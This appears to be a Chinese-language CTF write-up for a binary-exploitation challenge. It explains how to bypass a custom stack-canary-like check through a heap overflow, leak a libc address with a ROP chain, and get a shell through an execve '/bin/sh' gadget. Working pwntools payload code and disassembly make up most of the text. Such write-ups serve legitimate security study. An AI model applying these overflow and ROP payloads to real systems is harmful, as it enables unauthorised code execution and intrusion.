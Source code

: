 
## Vuln

1. scanf栈溢出
2. 堆上缓冲区溢出

## leak

程序有一个类似canary的检测。<br>

```C
// 保存res
struct manhea_addr
{
    u64 number;
    (void*) pt;       // 0x100
};

// 类似栈的方式存随机数
struct roun_ptr
{
    u64 number;
    (void*) pt;       // 0x320
};

```
roun_ptr对应的结构用来存放随机数，可以看成栈，每次函数开始就会push一个数，然后结束pop检测有没有溢出。
```C
v2 = push_numb();
//...
result = pop_numb();
if ( result != v2 )
  err_exit();
```

### bypass
绕过检测需要结合后面的堆溢出<br>
```Python
calc_numb1 = 0x24242420
calc_numb2 = 0x24242420
io.recvuntil("Input your name pls: ")
payload = '0'*0x108
payload += p64(calc_numb1*calc_numb2)   # numb chk
payload += p64(0x602288)
payload += p64(0x0000000000401123)  # pop rdi ret
payload += p64(0x601FF0)    # libc got
payload += p64(0x400850)
payload += p64(0x400FB7)    # return address
payload += '\n'
io.send(payload)
```
首先开始将程序构造的canary给覆盖成一个固定的值，这里覆盖成 0x24242420*0x24242420。<br>
就行了通过程序给定的乘法将之后要pop的值也覆盖成0x24242420*0x24242420(其他不行，算不到这个值)
```Python
for i in range(0x20):
    mAdd(calc_numb1, calc_numb2)
    dlySend("yes")
mSub(0x100, 0x100)
dlySend("yes")
mAdd(0x100, 0x11)   # size 0x111
dlySend("yes")
mMulti(calc_numb1, calc_numb2)  # fake number
dlySend("yes")
```
> 利用程序的保存计算的值没有进行数量的检测造成缓冲区溢出
> 还需要主要scanf过滤的字符

## exp
经过上面的操作已经可以leak出对应的地址了，但是还要进行一次溢出才行。<br>
这里不能直接溢出到main函数，因为其对应地址会被scanf过滤<br>
也不能溢出到0x400FA2(主程序地址)
```Assembly
.text:0000000000400FA2                 push    rbp
.text:0000000000400FA3                 mov     rbp, rsp
.text:0000000000400FA6                 sub     rsp, 110h
.text:0000000000400FAD                 mov     eax, 0
.text:0000000000400FB2                 call    @push_numb
.text:0000000000400FB7                 mov     [rbp+var_8], rax
.text:0000000000400FBB                 lea     rdi, aInputYourNameP ; "Input your name p
```
因为经过之前的操作，manhea_addr中的number已经覆盖过roun_ptr对应存放数值的堆块的第一个值，再往后覆盖是不能像之前一样绕过下面的检测
```Assembly
.text:000000000040101D                 call    @pop_numb
.text:0000000000401022                 cmp     rax, [rbp+var_8]
.text:0000000000401026                 jz      short loc_401033
.text:0000000000401028                 mov     eax, 0
.text:000000000040102D                 call    @err_exit
```
这里可以直接让之前的返回地址未0x0000000000400FB7，这样的话，之后@pop_numb的值一定就是0x111(堆的size)<br>
下面直接溢出即可
```Python
io.recvuntil("Input your name pls: ")
payload = '0'*0x108
payload += p64(0x111)   # numb chk
payload += '0'*0x08
payload += p64(exec_binshaddr)
payload += '\n'
io.send(payload)
```
这里是直接找libc中 execv "/bin/sh"
